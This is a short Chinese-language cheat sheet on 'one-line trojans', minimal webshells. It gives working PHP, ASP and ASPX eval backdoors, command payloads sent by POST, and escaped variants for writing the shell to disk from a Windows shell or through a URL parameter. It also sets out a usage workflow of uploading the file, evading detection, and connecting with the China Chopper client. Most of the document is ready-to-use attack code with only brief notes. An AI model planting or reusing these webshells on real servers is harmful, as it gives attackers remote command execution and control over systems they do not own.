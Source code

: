# 一句话木马

- 使用条件
    - 一句话木马文件上传成功，未被杀
    - 知道木马的整体路径
    - 上传的木马能正常运行
- 使用流程
    - 将具有一句话木马的文件上传至服务器
    - 运行该文件
    - 提交包含恶意代码的POST请求
        
        ```jsx
        cmd=echo 'HACKED'
        ```
        
        ```jsx
        cmd=header("Content-type:text/html;charset=gbk");
        exec("ipconfig",$out);
        echo '<pre>';
        print_r($out);
        echo '</pre>';
        ```
        
    - 请求生效，连接中国菜刀，获取WebShell
- PHP一句话木马
    
    <aside>
    💡 具体分析，首先指明PHP语境，`@`阻止报错，`eval` 执行字符串，`$_POST` 获取请求
    
    </aside>
    
    ```php
    <?php @eval($_POST['pass']);?>
    ```
    
- ASP与ASPX一句话木马
    
    ```
    <%eval request ("pass")%>
    ```
    
    ```
    <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
    ```
    
- Windows Shell语境下的PHP一句话木马
    
    <aside>
    💡 注意尖括号转义
    
    </aside>
    
    ```bash
    echo ^<?php @eval($_POST['pass']);?^>>trojan.php
    ```
    
- 浏览器语境下的PHP一句话木马
    
    <aside>
    💡 注意尖括号，问号转义
    
    </aside>
    
    ```jsx
    http://ip/some.php?date=^<^?php phpinfo();^?^> > trojan.php
    ```
    
- 更多细节
    
    [一句话木马与中国菜刀](https://blog.csdn.net/weixin_39190897/article/details/86772765)
